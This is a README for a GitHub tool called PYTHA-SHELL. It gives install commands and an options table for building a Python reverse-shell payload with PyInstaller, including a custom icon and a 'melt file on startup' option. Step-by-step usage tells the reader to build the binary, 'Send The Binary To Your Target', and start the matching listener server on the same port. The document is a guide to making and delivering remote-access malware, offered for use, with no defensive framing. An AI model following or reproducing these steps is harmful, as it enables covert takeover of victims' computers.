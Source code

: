 ```bash
pip install prompt_toolkit
```

### Clone the Repository and Install

```bash
git clone https://github.com/Faizan-Khanx/PYTHA-SHELL.git
cd PYTHA-SHELL
pip install -r requirements.txt
cd PYTHA
python PythaShell.py -h
```

Here's a table for the `PythaShell.py` options and their descriptions:

| Option              | Command              | Description                           |
|---------------------|----------------------|---------------------------------------|
| `-h`, `--help`       | `PythaShell.py -h`   | Show this help message and exit       |
| `-o`, `--host`       | `PythaShell.py -o`   | Host IP/hostname                      |
| `-p`, `--port`       | `PythaShell.py -p`   | Port                                  |
| `-i`, `--icon`       | `PythaShell.py -i`   | Path to icon file                     |
| `-c`, `--console`    | `PythaShell.py -c`   | Run as a console application          |
| `-d`, `--debug`      | `PythaShell.py -d`   | Enable PyInstaller debug mode         |
| `-m`, `--melt`       | `PythaShell.py -m`   | Melt file on startup                  |

## Setup Usage
### Simple Usage
- python3 PythaShell.py -o < host > -p < port > #Example python3 PythaShell.py -o 127.0.0.1 -p 1234

    ![Screenshot_2024-09-18_08-12-15](https://github.com/user-attachments/assets/7c5847cb-4865-4549-a3c0-5331360a721e)
  ![Screenshot_2024-09-18_08-15-49](https://github.com/user-attachments/assets/ad47afb3-c956-4358-bc03-bbf8bfcf4976)


- Now Check The Dist Folder For The Binary. And Send The Binary To Your Target
 ![Screenshot_2024-09-18_08-17-00](https://github.com/user-attachments/assets/55fa79b3-2ea4-45ea-ae4e-62de49eb4e77)
- Here you can se the Payload with name main_client . Send this to your target . 

## Usage

PYTHA-SHELL is a command-line tool for executing Python code and interacting with an advanced shell environment.

### Launch the Shell

```bash
python main_server.py -p <port> ``` #On Same Port You Use While Making The Payload
```

